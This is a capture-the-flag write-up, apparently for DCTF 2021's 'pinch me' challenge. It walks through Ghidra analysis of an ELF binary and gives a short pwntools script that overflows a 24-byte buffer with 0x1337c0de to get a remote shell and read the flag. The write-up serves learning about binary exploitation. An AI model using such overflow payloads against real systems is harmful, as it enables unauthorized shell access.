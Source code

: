 ## Description

<p align="center">
<img src="Image/image-20210518131433800.png">
</p>

## Solution
After download the file and checked the file, we know that it is an `ELF 64-bit LSB executable`. 

First thing we do is put it inside a reverse engineering tool called [Ghidra ](https://ghidra-sre.org/)

On the left hand side, there is a section called **function**, if we expand that we want find a function called **main**.

After further checking, we found a function called vuln and this is the function

<p align="center">
<img src="Image/image-20210518132403620.png">
</p>

We can see that:
- local_28 holds an array of characters with length of 24.
- if local_10 equal 0x1337c0de then we can get a shell

This means we need to overflow the local_28 and insert 0x1337c0de

A simple script can help us to do so.

```PYTHON
from pwn import *
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)
 
p.sendline(("A"*24).encode() + p64(0x1337c0de))
 
p.interactive()
```

<p align="center">
<img src="Image/image-20210518132918573.png">
</p>
Then we can run the script and walla, we will be changed to interactive mode after we get the shell and we can ls and cat the flag out.
